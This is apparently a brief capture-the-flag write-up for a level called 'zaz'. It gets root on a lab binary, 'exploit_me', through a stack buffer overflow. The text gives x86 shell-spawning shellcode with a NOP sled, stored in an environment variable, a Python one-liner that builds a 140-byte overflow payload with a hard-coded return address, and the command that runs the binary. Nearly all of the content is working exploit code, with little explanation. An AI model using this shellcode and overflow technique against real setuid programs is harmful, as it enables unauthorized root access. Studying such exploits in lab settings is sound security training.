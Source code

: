 Follow WriteUp 1 (except zaz)

# Zaz
We can become root without doing a ret2libc we'll try to put a shellcode in the env and exploit

shellcode : 1\xc0\xb0\xbe\xcd\x801\xc91\xd2Qhn/shh//bi\x89\xe3j\x0bX\xcd\x80

export SHELLCODE=$(python -c "print('\x90' * 500+ '1\xc0\xb0\xbe\xcd\x801\xc91\xd2Qhn/shh//bi\x89\xe3j\x0bX\xcd\x80')")

address of SHELLCODE begin = 0xbffff714 (must be found in gdb)

python -c "import struct; print('A' * 140) + struct.pack('I', 0xbffff714)" > payload


stdbuf -i0 ./exploit_me $(cat payload)
